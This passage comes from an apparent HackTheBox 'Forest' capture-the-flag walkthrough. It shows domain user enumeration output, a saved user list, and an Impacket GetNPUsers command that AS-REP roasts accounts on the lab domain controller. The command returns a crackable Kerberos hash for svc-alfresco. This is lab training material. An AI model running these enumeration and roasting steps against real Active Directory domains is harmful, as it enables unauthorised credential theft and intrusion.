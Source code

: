 >   user:[HealthMailboxfc9daad] rid:[0x46f]
>   user:[HealthMailboxc0a90c9] rid:[0x470]
>   user:[HealthMailbox670628e] rid:[0x471]
>   user:[HealthMailbox968e74d] rid:[0x472]
>   user:[HealthMailbox6ded678] rid:[0x473]
>   user:[HealthMailbox83d6781] rid:[0x474]
>   user:[HealthMailboxfd87238] rid:[0x475]
>   user:[HealthMailboxb01ac64] rid:[0x476]
>   user:[HealthMailbox7108a4e] rid:[0x477]
>   user:[HealthMailbox0659cc1] rid:[0x478]
>   user:[sebastien] rid:[0x479]
>   user:[lucinda] rid:[0x47a]
>   user:[svc-alfresco] rid:[0x47b]
>   user:[andy] rid:[0x47e]
>   user:[mark] rid:[0x47f]
>   user:[santi] rid:[0x480]
>   ...
>   ```

Nice! We can view the list of users. Lets take note of these users!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
└─# cat users.txt  
Administrator
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

Now, lets use `Impacket`'s `GetNPUsers` script to query users that does not require Kerberos preauthentication so that we can grab their TGTs (Ticket Granting Tickets) to crack.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Forest]
└─# impacket-GetNPUsers htb.local/ -dc-ip 10.10.10.161 -usersfile users.txt -no-pass -format john    
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$svc-alfresco@HTB.LOCAL:83eaf6df5506cbe209f4d3744cbb1735$fe1cf464a1e1f3bbc427008aa534c6ea07f89bb358102603af3d45db64968517df07f0d2914442647686ec4fa3a41d5f440a2bad6f2e73e15f002c7f83f6f930e04d10a78fd7180673e78c0c3d5e838d25a7e2f0b259a623453f3b89f9423c52eddd6ae02c788ebae6b40bec809593d5a853147b488bca96ba37ba44ce955ab5bcfc755cefcf2c4c7e92ba0a5b2d8327fb737e2bea6b9dbb2be2d8fd50a4efabb9b88544ec6db97c7893e55b128882a29ec1aa014bab005b0fb52213a76c773e37ea9355520737d840c8f28e74ca4d8bb0bdf912cd04940ae5bb034b7b601132d81244c05148
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```
